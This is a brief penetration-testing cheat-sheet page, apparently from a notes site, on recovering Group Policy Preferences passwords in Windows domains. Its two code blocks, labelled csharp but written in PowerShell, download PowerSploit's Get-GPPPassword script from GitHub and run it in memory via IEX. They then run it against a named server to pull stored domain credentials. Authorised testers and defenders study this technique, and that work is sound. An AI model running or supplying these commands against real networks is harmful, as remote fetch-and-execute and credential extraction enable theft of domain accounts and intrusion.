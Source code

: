 # Group Policy Preferences

## Group Policy Preferences

{% hint style="info" %}
Normally fixed but still :\)
{% endhint %}

```csharp
(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1)|IEX
```

```csharp
 Get-GPPPassword -Server server_here
```

